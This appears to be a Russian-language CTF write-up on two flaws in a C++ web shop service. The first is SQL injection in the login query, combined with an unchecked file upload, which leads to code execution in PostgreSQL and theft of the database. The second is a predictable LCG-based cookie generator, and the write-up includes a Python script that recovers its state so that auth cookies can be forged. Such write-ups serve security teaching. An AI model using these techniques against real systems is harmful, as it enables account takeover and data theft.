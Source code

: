 # Первая уязвимость

Бэкэнд сервиса в качестве базы данных использует postgresql. Так как С++ относительно низкоуровневый язык, то сервис не пользуется никакими ORM, 
но всю работу с базой проделывает через сырые запросы с помощью библиотеки [libpq](https://www.postgresql.org/docs/current/libpq.html). Следовательно,
есть поле для разгула SQL инъекций. При этом почти все места, куда можно было бы вставить инъекцию защищены функцией экранирования PQescapeLiteral. Кроме одного места - 
[метода, используемого при авторизации пользователя](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L98):
```cpp
    auto query = Format(
            HiddenStr("select * from users where login='%s' and password_hash=%s;"),
            login.c_str(),
            escapedPasswordHash.c_str()
    );

    result = PQexec(conn, query.c_str());
```

Сюда можно вставлять практически любой SQL запрос, однако на выходе есть [проверка на "количество и качество"](../../services/5g_shop/back/internal/src/services/UsersService.cpp#L105), которая несколько затрудняет 
извлечение данных через простые запросы:
```cpp
    if (PQresultStatus(result) != PGRES_TUPLES_OK || PQntuples(result) != 1) {
        auto msg = std::string(PQresultErrorMessage(result));

        CROW_LOG_ERROR << msg;

        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }

    auto user = User::ReadFromPGResult(result);

    if (user->passwordHash != passwordHash || user->login != login) {
        return Result<std::shared_ptr<User>>::ofError("invalid login or password");
    }
```

В то же время, в сервисе есть функционал загрузки картинок, использующихся для "описания" продаваемой техники. Логика проверки того, что загружаемый файл является картинкой, [присутствует](../../services/5g_shop/back/internal/src/main.cpp#L422), однако написана с ошибкой - проверка есть только заголовка и то, только в случае, когда он есть:
```cpp
    for (auto &header: part.headers) {
        if (header.value.first == "Content-Type") {
            if (!header.value.second.starts_with("image")) {
                return response(status::BAD_REQUEST);
            }
        }
        if (header.value.first == "Content-Disposition") {
            filename = header.params["filename"];
        }
    }
```

Поэтому загрузить любой файл не составит труда. К тому же загруженные файлы будут доступны из контейнера postgresql. Поэтому есть вариант использования уязвимости - выполнить произвольный код
в postgresql, нужно только загрузить туда правильный *.so*-файл. Пример реализации можно посмотреть [здесь](./psql-rce)

Как вариант использования rce уязвимости - перезапись существующей картинки файлами postgresql, а затем обычное выкачивание этой "картинки" себе - получает полную копию базы данных любой команды.


# Вторая уязвимость

В сервисе используется самописный генератор uuid4 для кук авторизации пользователей. Генератор основан на линейном конгруэнтном методе, который легко взламывается. [UUID.cpp](../../services/5g_shop/back/internal/src/tools/UUID.cpp#L14)
```cpp
volatile uint8_t ab[] = {0x41, 0x3c, 0xc6, 0xf3, 0x4e, 0x5f, 0x6d};
volatile uint8_t cb[] = {0x3c, 0x41, 0x6e, 0xc6, 0xf3, 0x6d, 0x5f};
static volatile uint32_t x;
static bool initialized = false;

static char alpha[] = "0123456789abcdef";

namespace shop {
    uint16_t rand() {
        if (!initialized) {
            initialized = true;

            x = std::time(nullptr);
        }

        uint32_t a = (ab[0] << 24) | (ab[2] << 16) | (ab[4] << 8) | ab[6];
        uint32_t c = (cb[0] << 24) | (cb[2] << 16) | (cb[4] << 8) | cb[6];

        x = x * a + c;

        return static_cast<uint16_t>((x & 0xFFFF0000) >> 16);
    }
}
```

Более того, получаемые uuid почти полностью выдают стейт генератора, лишь меняя полубайты местами и выводя сгенерированные числа "в bit endian'e":
```cpp
int counters[] = {4, 2, 2, 8};

    union {
        uint16_t randvalues[8];
        uint8_t bytes[16];
    };

    randvalues[0] = rand();
    randvalues[1] = rand();
    randvalues[2] = rand();
    randvalues[3] = rand();
    randvalues[4] = rand();
    randvalues[5] = rand();
    randvalues[6] = rand();
    randvalues[7] = rand();

    int p = 0;

    for (auto i = 0; i < 4; ++i) {
        for (int j = 0; j < counters[i]; ++j) {
            uint8_t b = bytes[p++];

            ss << alpha[b & 0x0F] << alpha[(b & 0xF0) >> 4];
        }

        if (i != 3) {
            ss << "-";
        }
    }

    return ss.str();
```

Поэтому восстановить состояние можно, создав пользователя и "посмотрев" на его куку. После восстановленного состояния можно генерировать авторизационные куки. Чтобы не перебирать пары (пользователь, кука) можно 
воспользоваться сортировкой всех пользователей по полю `created_at` из метода `/api/users/list`. Код получения состояния генератора может выглядеть [так:](./broken-uuid/sploit.py)
```python
import requests
import uuid


r = requests.post(f'http://localhost:4040/api/users', json={'login': str(uuid.uuid4()), 'password_hash': str(uuid.uuid4()), 'credit_card_info': 'some card'})

if r.status_code != 201:
    print(r, r.content)
    exit(0)


cookie = r.json()['auth_cookie']

print(cookie)

x1 = int(''.join(reversed(cookie[0:4])), 16)
x2 = int(''.join(reversed(cookie[4:8])), 16)

print(hex(x1), hex(x2))

# параметры генератора из бинарника сервиса
a = 0x41c64e6d
c = 0x3c6ef35f

low = 0
lows = []
while low < (1 << 16):
    if ((((low | (x1 << 16)) * a + c) & 0xFFFF0000) >> 16) == x2:
        lows.append(low)
    low += 1


for low in lows:
    x = (x1 << 16) | low
    def rand():
        global x
        x = (x * a + c) & 0xFFFFFFFF
        return (x & 0xFFFF0000) >> 16
    b = [x, rand(), rand(), rand(), rand(), rand(), rand(), rand()]
    s = ''
    for l in b:
        s += ''.join(reversed((hex(l)[2:]).zfill(4)))
    print(x, s)

    if s[4:] == cookie.replace('-', ''):
        print('found! current state is ', x, a, c)
```

